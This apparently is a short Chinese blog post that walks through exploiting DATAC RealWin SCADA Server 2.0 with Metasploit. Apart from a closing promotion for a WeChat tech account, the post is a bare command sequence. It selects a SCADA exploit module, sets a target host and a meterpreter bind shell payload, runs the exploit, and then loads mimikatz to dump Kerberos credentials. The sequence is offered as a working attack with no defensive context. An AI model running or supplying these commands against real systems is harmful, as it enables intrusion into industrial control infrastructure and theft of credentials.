 ```yaml
---
layout: post
category: binghe-code-hack
title: 利用Metasploit渗透DATAC-RealWin-SCADA Server2.0
tagline: by CurleyG
tag: [hack,binghe-code-hack]
excerpt: 利用Metasploit渗透DATAC-RealWin-SCADA Server2.0
lock: need
---
```


# 利用Metasploit渗透DATAC-RealWin-SCADA Server2.0

```
msfconsole
use exploit/windows/scada/realwin_scpc_initialize
set RHOST 192.168.109.141
set payload windows/meterpreter/bind_tcp
show options
exploit
sysinfo
load mimikatz
kerberos
```


## 写在最后

> 如果你觉得冰河写的还不错，请微信搜索并关注「 **冰河技术** 」微信公众号，跟冰河学习高并发、分布式、微服务、大数据、互联网和云原生技术，「 **冰河技术** 」微信公众号更新了大量技术专题，每一篇技术文章干货满满！不少读者已经通过阅读「 **冰河技术** 」微信公众号文章，吊打面试官，成功跳槽到大厂；也有不少读者实现了技术上的飞跃，成为公司的技术骨干！如果你也想像他们一样提升自己的能力，实现技术能力的飞跃，进大厂，升职加薪，那就关注「 **冰河技术** 」微信公众号吧，每天更新超硬核技术干货，让你对如何提升技术能力不再迷茫！


![](https://img-blog.csdnimg.cn/20200906013715889.png)
